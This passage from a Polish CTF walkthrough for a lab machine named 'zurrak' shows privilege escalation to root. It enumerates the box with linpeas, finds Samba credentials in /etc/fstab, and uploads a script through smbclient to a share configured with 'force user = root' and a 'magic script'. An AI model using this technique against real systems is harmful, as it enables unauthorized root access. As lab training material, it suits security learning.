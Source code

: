 ```bash

postgres@zurrak:/var/lib/postgresql/15/main$
```
# 09. Shell
W katalogu __/home/postgres__ jest ciekawy plik **emergency.sh**. Ale o nim później. Skanując cały system programem **linpeas.sh** znalazłem coś ciekawego w pliku __/etc/fstab__
 {: .text-justify}
```bash
//127.0.0.1/internal    uid=emre, pw=daily666
```
Login **emre**, hasło **daily666**. Przypomina to **Sambę**. W konfiguracji __/etc/samba/smb.conf__ widać:
{: .text-justify}
```plaintext
[internal]
comment = "zurrak internal share"
path = /opt/internal
hosts allow = 127.0.0.1
guest ok = no
browseable = yes
writable = yes
valid users = emre
create mask = 0777
directory mask = 0777
force user = root
magic script = emergency.sh
```
Ten skrypt **emergency.sh** zawiera komendę, która zmienia hasło na **root**a. Wrzućmy plik do __/opt/internal__ logując się przez **Smbclient**
{: .text-justify}
```bash
smbclient \\\\127.0.0.1\\internal -U emre%daily666
```
```bash
smb: \> lcd /home/postgres
lcd /home/postgres
smb: \> put emergency.sh
put emergency.sh
putting file emergency.sh as \emergency.sh (0.9 kb/s) (average 0.9 kb/s)
smb: \> 
lcd /home/postgres
```
Masz dostęp do **root**a. Hasło znajdziesz w pliku __/home/postgres/emergency.sh__
{: .text-justify}
Dzięki **PL4GU3** i jego solucji na [YouTube](https://www.youtube.com/watch?v=tmAwz02KP1Y) możesz poznać też parę ciekawych sztuczek.
{: .text-justify}
